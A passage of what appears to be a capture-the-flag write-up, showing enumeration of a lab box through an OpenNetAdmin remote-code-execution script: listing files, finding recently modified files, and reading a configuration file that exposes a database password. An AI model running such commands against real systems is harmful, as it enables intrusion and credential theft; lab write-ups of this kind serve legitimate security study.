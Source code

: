 We start enumerating the box as `www-data`.

    :::text
    sh ona_rce.sh 'whoami' 
                      <pre style="padding: 4px;font-family: monospace;">BEGIN
      www-data
      END
    sh ona_rce.sh 'ls -al'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    total 72
    drwxrwxr-x 10 www-data www-data 4096 Jan  7 14:41 .
    drwxr-x---  7 www-data www-data 4096 Nov 21 18:23 ..
    -rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
    drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
    -rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
    -rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
    drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
    -rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
    drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
    -rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
    -rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
    drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins

We notice that the file are from January 2018. So we just filter on file older
that 30 days. That allow us to find a configuration file for the database
containing a password.

    :::text
    sh ona_rce.sh 'find ../../ -mtime -30 2>/dev/null | grep -Ev "^/proc"'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    ../../
    ../../priv.save
    ../../ona/www


    sh ona_rce.sh 'cat ../../ona/www/local/config/database_settings.inc.php'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    <?php

    $ona_contexts=array (
      'DEFAULT' =>
      array (
        'databases' =>
        array (
          0 =>
          array (
            'db_type' => 'mysqli',
            'db_host' => 'localhost',
            'db_login' => 'ona_sys',
            'db_passwd' => 'n1nj4W4rri0R!',
            'db_database' => 'ona_default',
            'db_debug' => false,
          ),
        ),
        'description' => 'Default data context',
        'context_color' => '#D3DBFF',
      ),
    );
